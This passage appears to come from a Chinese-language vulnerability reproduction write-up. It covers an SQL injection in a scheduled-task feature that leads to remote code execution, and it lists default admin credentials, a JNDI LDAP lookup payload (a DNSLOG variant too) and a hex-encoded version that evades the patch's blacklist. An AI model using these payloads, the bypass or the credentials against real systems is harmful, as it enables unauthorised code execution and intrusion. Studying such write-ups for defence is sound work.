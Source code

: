 ```
admin
admin123

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicNbiacFRqkqArnr51A4FEco1yxLAuLjpaFpicIbbtTHRm5gAEib6937kKA/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
系统监控下定时任务中存在SQL注入漏洞  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicHOJ2Nl7a8Z74icyMqs3CahnJ95aU4o1D0iaJWCeo6j8yicRyKkhEgWGSg/640?wx_fmt=png&from=appmsg "")  
  
在补丁中，使用了黑名单和白名单的策略。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicK5x7ibyicVcIyv3GeiaeD8kuIOicEiafFHflLsSAdeCsCAkcia0PjrqIbFyA/640?wx_fmt=png&from=appmsg "")  
  
SQL注入漏洞点  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicpjILPPqbLfFgcEJz9JlqN8NvhBSdCVYdza2me50decIljsr0q8WGJg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
开始复现  
RCE payload  
JNDI  

```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')

```

  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
DNSLOG  

```
javax.naming.InitialContext.lookup('ldap://dnslog')

```

  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
https://www.bejson.com/convert/ox2str/  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicODhm1nFWseX7RpeoKo30Yj6TNBib1mnEOh6tSkBiaDWa3x8ADJbnZ2SQ/640?wx_fmt=png&from=appmsg "")  

```
6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729

```

  
第一步：运行此命令  
成功地绕过了它，并成功地执行  
